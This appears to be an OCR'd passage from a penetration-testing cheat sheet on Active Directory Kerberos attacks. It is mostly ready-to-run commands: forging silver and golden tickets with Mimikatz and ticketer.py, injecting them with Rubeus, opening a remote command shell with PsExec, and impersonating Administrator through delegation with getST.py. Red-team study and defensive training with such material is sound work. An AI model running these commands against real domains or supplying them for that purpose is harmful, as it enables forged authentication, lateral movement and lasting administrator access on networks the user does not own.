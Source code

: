 ```
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes128:<krbtgt_aes128_key> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>

# To generate the TGS with AES 256 key (more secure encryption, probably more stealth due is the used by default by Microsoft)
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes256:<krbtgt_aes256_key> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>

# Inject TGS with Mimikatz
mimikatz # kerberos::ptt <ticket_kirbi_file>

# Inject ticket with Rubeus:
.\Rubeus.exe ptt /ticket:<ticket_kirbi_file>

# Execute a cmd in the remote machine with PsExec:
.\PsExec.exe -accepteula \\<remote_hostname> cmd
```
- If encountered KRB_AP_ERR_SKEW, that means your machine is out of sync with the dc’s time:
```
# Disable auto sync and update with the target dc
> timedatectl set-ntp false
> ntpdate -s <target-dc>
```
### Impersonation
- When compromised a host or account with some form of delegation rights configured.
- SPN must match one of the SPN’s the supplied account is authorized to perform delegation against.
```
# Impersonate as Administrator, the uid is 500 by convention
> getST.py -spn <spn>/<dc> '<domain>/<user>:<pass>' -impersonate Administrator -dc-ip <dc-ip>
> export KRB5CCNAME=Administrator.ccache

# Connect to mssql via the impersonated ticket
> mssqlclient.py <domain> -k
```

### Golden Ticket
- Concept: A valid TGT as any user can be created using the NTLM hash of the krbtgt AD account. The advantage of forging a TGT instead of TGS is being able to access any service (or machine) in the domain and the impersonated user. Moreover the credentials of krbtgt are never changed automatically.
```
# Benefits
* PE between two domains with configured trust relationships.
* Remain valid even if a users password expires or is changed
* To invalidate a Golden Ticket, need to change the krbtgt users password twice

# Pre-requisite
* NTLM hash of krbtgt user
* SID of target Domain
```
- linux:
```
# To get the domain SID
> lookupsid.py <domain>/<user>:<pass>@<dc-ip>

# Kerberos works with SIDs and not SAM usernames, the supplied username can be anything we like, even if the user does not exist
# By default, the forged ticket will contain SIDs for the following groups - 513, 512, 520, 518, 519. However, an alternative list of groups can be specified using -groups
# Additional Domain SIDs can be specified using the -extra-sid flag, which is useful for pivoting across domain trusts.
# NTLM hash can be generated using: https://codebeautify.org/ntlm-hash-generator
> ticketer.py -nthash <ntlm> -domain-sid <sid> -domain <domain> <fake-user> # <fake-user> can be arbitrary, usually Administrator
```